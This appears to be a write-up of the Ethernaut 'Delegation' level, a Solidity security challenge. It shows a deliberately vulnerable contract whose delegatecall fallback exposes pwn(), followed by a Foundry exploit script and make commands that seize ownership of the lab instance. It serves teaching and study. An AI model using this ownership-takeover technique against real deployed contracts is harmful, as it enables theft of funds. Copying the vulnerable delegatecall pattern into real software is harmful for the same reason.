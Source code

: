 # Level 6 - Delegation ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/6" %}

### Level Setup

{% hint style="info" %}
The goal of this level is for you to claim ownership of the instance you are given.

&#x20; Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
* Fallback methods
* Method ids
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Delegation.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```
{% endcode %}

### Exploit

The contract forwards any unmatched function calls through to the `Delegate` contract through the `fallback()` function. As `pwn()` is only on the `Delegate` contract, it's as simple as calling `pwn()` and having it execute the function on the `Delegate` instead of the `Delegation` contract.

1. Call `pwn()`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-6

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level6.s.sol" %}

{% code title="script/Level6.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IDelegate {
    function pwn() external;
}

// ================================================================
// │                        LEVEL 6 - DELEGATION                  │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IDelegate targetContract = IDelegate(targetContractAddress);

        vm.startBroadcast();
        // Using interface:
        targetContract.pwn();

        // Without interface:
        // targetContractAddress.call(abi.encodeWithSignature("pwn()"));

        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.
{% endhint %}

### Notes

* [delegatecall](https://eip2535diamonds.substack.com/p/understanding-delegatecall-and-how) in Solidity
